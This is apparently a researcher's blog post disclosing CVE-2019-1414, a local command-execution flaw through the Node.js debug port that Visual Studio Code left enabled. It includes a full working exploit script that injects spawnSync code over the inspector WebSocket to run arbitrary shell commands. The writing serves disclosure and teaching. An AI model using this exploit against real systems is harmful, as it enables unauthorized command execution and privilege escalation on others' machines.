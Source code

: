 ```yaml
---
layout: default
---
```


_**Nov 4, 2019**_

## CVE-2019-1414 — a Local Command Execution in Visual Studio Code

Few months ago I discovered by looking at the running processes of my VM that [Visual Studio Code](https://code.visualstudio.com/) was enabling by default the [Node.js debug port](https://nodejs.org/en/docs/guides/debugging-getting-started/). Let's analyze the security impact and the process followed to exploit the issue and achieve Command Execution in the context of the running Visual Studio Code instance.

<script id="asciicast-PeDRogrDXQLbVb0A7hbLiXlNk" src="https://asciinema.org/a/PeDRogrDXQLbVb0A7hbLiXlNk.js" async></script>

## Debugging Node.js

Before my career shift into security, I was working as Full Stack JavaScript Developer. As result, I was spending a lot of time writing Node.js code to build Web APIs and data processing scripts. When you have to debug a Node.js, it's very handy to reuse the Chrome DevTools that we all know and love, since it lets to set breakpoints and it has code evaluation and interactive inspection with sourcemaps support! To enable developers to natively use the Chrome DevTools, they migrated from the legacy debug protocol to the newer [Inspector protocol](https://v8.dev/docs/inspector), that is based on the [WebSocket protocol](https://tools.ietf.org/html/rfc6455). When a Node.js instance is launched with the `--inspect` command line option, it exposes by default a debug port on `127.0.0.1:9229`. This debug port enables full access to the underline Node.js instance, including the ability to run arbitrary JavaScript code. It's also possibile to define a custom TCP port using the `--inspect=12345` option. We can connect to the port using Chrome by opening the URL `chrome://inspect` or programmatically by writing some code.

## Discovery

By looking _by chance_ at the running processes in my VM, I noticed that Visual Studio Code was normally started with the `--inspect=RANDOM_PORT` option, using a random TCP port at every execution.

![discovery](../assets/images/cve-2019-1414-discovery.jpg "Discovery")

A local attacker can exploit this port to execute arbitrary JavaScript code within the underline Node.js instance, ultimately achieving command execution on the system in the context of the Visual Studio Code instance. This can be used for horizontal and vertical lateral movements, including the following scenarios:

1. if Visual Studio code runs as Administrator, we can elevate our privileges to the highest level, i.e. `NT AUTHORITY\SYSTEM`
2. if Visual Studio Code runs as another user, we can achieve command execution as that user
3. if Visual Studio Code runs in High Integrity context, we can bypass any UAC setting and elevate from Low/Medium levels

## Exploitation

There are two main limitations to the exploitability, that are:

1. the debug port binds to `127.0.0.1`
2. a random TCP port is used every execution

Due to these limitations, the issue cannot be remotely exploited. If instead a fixed TCP port was used, the issue could have been exploited via the browser using a [DNS Rebinding](https://en.wikipedia.org/wiki/DNS_rebinding) attack to bypass the Same Origin Policy.

To be able to execute arbitary JavaScript code, we need first to retrieve the WebSocket link using a `HTTP GET` request to `/json` URL and then connect to it using the WebSocket protocol.

![websocket](../assets/images/cve-2019-1414-websocket.jpg "WebSocketLink")

I wrote a [simple Node.js script](https://github.com/phra/inspector-exploiter) to execute arbitrary commands by connecting to the debug port.

```javascript
const fetch = require('node-fetch')
const WebSocket = require('ws')

function die(reason) {
  console.error(reason)
  process.exit(-1)
}

if (process.argv.length !== 5) {
  die('usage: node index.js <IP> <PORT> <COMMAND>')
}

const IP = process.argv[2]
const PORT = process.argv[3]
const COMMAND = process.argv[4]
const COMMAND_B64 = base64(COMMAND)

function base64(data) {
  return Buffer.from(data).toString('base64')
}

async function getWsLink() {
  const res = await fetch(`http://${IP}:${PORT}/json`)
  const data = await res.json()
  return data[0].webSocketDebuggerUrl
}

async function main() {
  console.log(`[?] Getting webSocketDebuggerUrl from http://${IP}:${PORT}/json`)
  const wsLink = await getWsLink().catch(die)
  console.log(`[!] Found webSocketDebuggerUrl: ${wsLink}`)
  const socket = new WebSocket(wsLink)

  socket.onopen = async (event) => {
    console.log(`[?] Connection established to ${wsLink}`)
    socket.send(JSON.stringify({ id: 1, method: 'Runtime.enable' }))
    socket.send(JSON.stringify({
      id: 2,
      method: 'Runtime.evaluate',
      params: {
        expression: `spawn_sync = process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};}`
      }
    }))

    socket.send(JSON.stringify({
      id: 3,
      method: 'Runtime.evaluate',
      params: {
        expression: `spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}`
      }
    }))

    console.log(`[!] Executing: ${COMMAND}`)
    socket.send(JSON.stringify({
      id: 4,
      method: 'Runtime.evaluate',
      params: {
        expression: `spawnSync('/bin/bash', ['-c', 'echo ${COMMAND_B64} | base64 -d | /bin/bash'])`
      }
    }))

    socket.close()
  }

  socket.onclose = (event) => {
    if (event.wasClean) {
      console.log('[?] Connection closed cleanly')
    } else {
      console.log('[?] Connection died')
    }
  }

  socket.onerror = (error) => {
    console.log(error)
  }
}

main()
```

Here you can see it in action:

![exploit](../assets/images/cve-2019-1414-exploit.jpg "Exploit")

## Responsible Disclosure

The issue was promptly reported to Microsoft by following a Responsible Disclosure approach.

![msrc](../assets/images/cve-2019-1414-msrc.jpg "MSRC")

The vulnerability was also [indipendently discovered](https://bugs.chromium.org/p/project-zero/issues/detail?id=1944) by [Tavis Ormandy](https://twitter.com/taviso) of [Google Project Zero](https://googleprojectzero.blogspot.com/).

## Timeline

- 31/08/2019: Issue reported to MSRC
- 03/09/2019: Issue acknowledged (case #53814)
- 11/10/2019: Google Project Zero public disclosure
- 17/10/2019: CVE-2019-1414 Advisory released

[back](../)
